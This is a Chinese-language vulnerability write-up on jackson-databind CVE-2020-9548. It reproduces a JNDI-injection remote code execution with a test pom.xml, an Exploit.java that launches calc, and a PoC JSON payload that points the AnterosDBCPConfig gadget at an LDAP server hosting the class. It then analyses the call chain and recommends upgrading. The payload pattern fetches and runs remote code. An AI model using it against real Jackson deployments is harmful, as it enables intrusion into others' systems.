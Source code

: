```yaml
---
title: 'jackson-databind RCE CVE-2020-9548'
date: Fri, 04 Sep 2020 03:20:36 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

• jackson-databind before 2.9.10.4 • jackson-databind before 2.8.11.6 • jackson-databind before 2.7.9.7

### 漏洞类型

JDNI注入导致RCE 利用条件 • 开启enableDefaultTyping() • 使用了br.com.anteros.dbcp.AnterosDBCPConfig第三方依赖

### 漏洞概述

2020年3月，jackson-databind在github上更新了一个新的反序列化利用类br.com.anteros.dbcp.AnterosDBCPConfig，该类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 漏洞复现

环境搭建 pom.xml：

```
 <dependencies>
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-databind</artifactId>
      <version>2.9.9.1</version>
    </dependency>
      <!-- https://mvnrepository.com/artifact/br.com.anteros/Anteros-DBCP -->
      <dependency>
          <groupId>br.com.anteros</groupId>
          <artifactId>Anteros-DBCP</artifactId>
          <version>1.0.1</version>
      </dependency>
      <dependency>
      <groupId>org.slf4j</groupId>
      <artifactId>slf4j-nop</artifactId>
      <version>1.7.2</version>
    </dependency>
    <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
      <dependency>
          <groupId>javax.transaction</groupId>
          <artifactId>jta</artifactId>
          <version>1.1</version>
      </dependency>
  </dependencies>
```

### 漏洞利用

编译Exploit.java Exploit.java代码如下：

```
import java.lang.Runtime;

public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

搭建HTTP服务 使用Python搭建简易SimpleHTTPServer服务：

搭建LDAP服务 使用marshalsec来启动一个LDAP服务：

执行漏洞POC1 Poc.java代码如下所示：

```
package com.jacksonTest;

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {
    public static void main(String[] args) throws Exception {
       ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String payload = "[\"br.com.anteros.dbcp.AnterosDBCPConfig\", {\"metricRegistry\":\"ldap://127.0.0.1:1099/Exploit\"}]";
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

之后运行该程序，成功执行命令，弹出计算器：

### 漏洞分析

首先定位到br.com.anteros.dbcp.AnterosDBCPConfig类，之后发现一处可疑的JNDI注入：

由于参数来自object，所以之后全局搜索调用getObjectOrPerformJndiLookup函数调用的地方发现setMetricRegistry处有一处可控的调用，此处的参数metricRegistry可有json指定，之后传入getObjectOrPerformJndiLookup，之后再次传入lookup，从而导致JNDI注入的发生，并最终导致RCE:

整个利用链如下所示：

```
mapper.readValue
    ->setMetricRegistry
        ->getObjectOrPerformJndiLookup
             ->lookup
```

### 修复建议

• 及时将jackson-databind升级到安全版本 • 升级到较高版本的JDK。 参考链接 [https://github.com/FasterXML/jackson-databind/issues/2634](https://github.com/FasterXML/jackson-databind/issues/2634)